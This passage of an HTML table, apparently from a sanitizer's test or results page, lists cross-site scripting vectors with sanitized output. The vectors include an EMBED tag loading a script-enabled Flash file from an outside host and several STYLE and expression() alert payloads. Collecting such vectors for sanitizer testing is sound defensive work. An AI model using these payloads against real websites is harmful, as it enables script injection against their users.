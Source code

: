 </td>
<td></td>
<td></td>
</tr>
<tr>
<td>Embed Flash</td>
<td>
<pre>&lt;EMBED »
SRC="http://ha.ckers.org/xss »
.swf" »
AllowScriptAccess="always"&gt;&lt; »
/EMBED&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>STYLE</td>
<td>
<pre>&lt;STYLE »
TYPE="text/javascript"&gt;alert »
('XSS');&lt;/STYLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>STYLE w/Comment</td>
<td>
<pre>&lt;IMG »
STYLE="xss:expr/*XSS*/ession »
(alert('XSS'))"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>STYLE w/Anonymous HTML</td>
<td>
<pre>&lt;XSS »
STYLE="xss:expression(alert( »
'XSS'))"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>STYLE w/background-image</td>
<td>
<pre>&lt;STYLE&gt;.XSS{background-image »
:url("javascript:alert('XSS' »
)");}&lt;/STYLE&gt;&lt;A »
CLASS=XSS&gt;&lt;/A&gt;</pre>
</td>
<td>
<pre>&lt;a&gt;&lt;/a&gt;</pre>
</td>
<td></td>
</tr>
<tr>
<td>STYLE w/background</td>
<td>
<pre>&lt;STYLE »
type="text/css"&gt;BODY{backgro »